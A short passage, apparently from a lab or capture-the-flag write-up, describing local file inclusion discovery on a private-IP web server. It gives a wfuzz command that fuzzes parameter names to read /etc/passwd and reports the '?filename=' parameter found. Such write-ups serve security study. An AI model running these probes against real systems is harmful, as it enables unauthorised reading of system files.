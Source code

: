 **Result**: File successfully uploaded to server.

## LFI Parameter Discovery

### Parameter Fuzzing

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u "http://192.168.40.49/index.php?FUZZ=/etc/passwd"
```

![Parameter Discovery](images/Pasted%20image%2020251013012957.png)

**Parameter Found**: `?filename=`

### LFI Verification

![LFI Test](images/Pasted%20image%2020251013012852.png)
